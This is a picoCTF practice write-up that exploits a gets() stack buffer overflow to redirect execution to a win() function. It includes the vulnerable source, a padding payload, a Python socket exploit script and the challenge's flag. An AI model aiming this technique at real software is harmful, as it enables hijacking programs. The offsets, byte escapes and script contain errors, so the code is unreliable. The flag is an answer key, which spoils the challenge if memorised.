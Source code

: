 # BufferOverFlow1
link challenge: https://play.picoctf.org/practice/challenge/258?category=6&page=2

## Description
Control the return address
Now we're cooking! You can overflow the buffer and return to the flag function in the program.
You can view source here.

## Solution
get the given file:
wget https://artifacts.picoctf.net/c/185/vuln https://artifacts.picoctf.net/c/185/vuln
wget https://artifacts.picoctf.net/c/185/vuln https://artifacts.picoctf.net/c/185/vuln.c

if we run the program with:
'''c
chmod +x vuln
./vuln
'''

the program will ask for a string. '''c Please enter your string: '''

let's take a step back, we start with analysing the vuln.c source code.

first the BUFSIZE, from it we can consider that the offset maybe 32 or even more.
'''c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64
'''

'''c
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
'''

from these three functions, we can know that:
-  function win() is the function that will give us the flag
-  vuln() function seems there's an interesting one, '''c gets(buf); '''.  that's where the we will get the buffer
-  main() function we can know that is call vuln() function after we input a value
-  the end, we know that we can get the buffer by entering some payload while inputing the value

## exploitation step
before inputing some string to the program we must know the number of offset length is.
if we enter 32 A:
'''c 
python -c "print('A' * 32)" 
'''
we'll get nothing strange, but if we entered the string length until 48 we'll get a segmentation fault.
'''c
python -c "print('A' * 48)"
'''

the program will crash and give us:
Okay, time to return... Fingers Crossed... Jumping to 0x41414141
zsh: done                python -c "print('A' * 48)" | 
zsh: segmentation fault  ./vuln

from this, we know the offset length is 48.

if we analyze the 0x41414141 too, it's a hex number of "AAAA". so the program are jumping to the "AAAA" adresss.

what if we make the program to jump to the win() function address??
so, we must find the address of the win() function with "readelf" tools

the command to see the address function of vuln file is
'''c
readelf -s ./vuln
'''
-s for displaying the symbols table of the file

the output will given us the win() function address: 
'''c 080491f6   139 FUNC    GLOBAL DEFAULT   13 win '''
080491f6 is the address, and don't forget that the address is in the hex number.

if we want to reach the win() function we must input 44 characters and the address of win 080491f6. but we must convert the address of win() to the 
little-endian format first:
/xf6/x91/x04/x08

so, let's execute it with the command:
python -c "print('A' * 44 + '/xf6/x91/x04/x08')" | nc saturn.picoctf.net 62768

but, the flag still doesn't show up.

so, i write a script to exploit this

'''c
import argparse
import socket
import struct

parser = argparse.ArgumentParser()
parser.add_argument(
        "host",
        type=str,
        help="host name or ip adress to connect"
        )

parser.add_argument(
        "port",
        type=int,
        help="port number to connect"
        )

args = parser.parse_args()

offset = 44

new_address = struct.pack("<I", 0x080491f6)

payload = b"".join(
    [
    b"A" * offset,
    new_address
    ]
)

payload += b"\n"

print(args.host, args.port)

with socket.socket() as connection:
    connection = socket.socket

    connection.connect((args.host, args.port))
    connection.recv(4096).decode("utf-8")
    connection.send(payload)
    connection.recv(4096).decode("utf-8")
    connection.recv(4096).decode("utf-8")
'''

if we exploit this code with the command: 
'''c python exploit.py saturn.picoctf.net 62768 '''

the program will gives us the flag:
'''c
picoCTF{addr3ss3s_ar3_3asy_6462ca2d}
'''



